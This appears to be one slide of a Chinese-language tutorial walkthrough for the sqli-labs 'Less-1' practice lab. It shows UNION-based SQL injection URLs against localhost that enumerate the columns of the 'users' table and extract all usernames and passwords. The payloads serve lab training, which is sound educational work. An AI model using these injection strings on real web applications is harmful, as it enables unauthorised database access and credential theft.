

# Less-1_02
7. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,column_name from information_schema.columns where table_name=0x7573657273--+ 查询列信息，或者是：http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+ 查看所以的列信息
8. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,concat_ws(’~‘,username,password) from security.users limit 1,1--+ 查询一个账号和密码，或者是：http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users --+ 直接可以得到所有的账号和密码，并且使用~符号进行分割。